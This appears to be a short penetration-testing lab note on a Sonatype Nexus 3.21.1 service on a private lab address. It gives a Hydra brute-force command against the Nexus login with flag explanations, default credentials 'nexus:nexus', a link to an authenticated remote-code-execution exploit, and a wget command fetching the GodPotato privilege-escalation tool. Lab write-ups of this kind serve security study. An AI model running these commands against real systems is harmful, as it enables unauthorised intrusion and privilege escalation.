


_____

>[!INFO]
> IP=192.168.229.61


# 8081 - http

# Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated)

```bash
hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```

```bash
 -I : ignore any restore files
 -f : stop when a login is found
 -L : username list
 -P : password list
 ^USER64^ and ^PASS64^ tells hydra to base64-encode the values
 C=/ tells hydra to establish session cookies at this URL
 F=403 tells hydra that HTTP 403 means invalid login
```




nexus:nexus


https://www.exploit-db.com/exploits/49385


# PrivEsc

```bash
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -O potato.exe
```
